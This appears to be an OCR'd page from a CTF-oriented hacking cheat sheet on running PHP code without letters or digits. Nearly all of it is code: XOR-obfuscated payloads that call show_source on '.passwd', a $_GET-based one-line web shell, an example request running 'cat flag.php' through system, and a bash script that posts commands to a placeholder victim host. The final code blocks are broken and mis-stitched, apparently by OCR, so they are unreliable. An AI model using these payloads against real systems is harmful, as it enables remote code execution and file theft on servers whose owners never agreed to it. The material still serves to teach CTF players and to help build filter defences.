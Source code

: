 ```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```

### XOR easy shell code

According to [**this writeup** ](https://mgp25.com/ctf/Web-challenge/)the following it's possible to generate an easy shellcode this way:

```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```

So, if you can **execute arbitrary PHP without numbers and letters** you can send a request like the following abusing that payload to execute arbitrary PHP:

```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

For a more in depth explanation check [https://ctf-wiki.org/web/php/php/#preg_match](https://ctf-wiki.org/web/php/php/#preg_match)

### XOR Shellcode (inside eval)

```bash
#!/bin/bash

if [[ -z $1 ]]; then
  echo "USAGE: $0 CMD"
  exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```

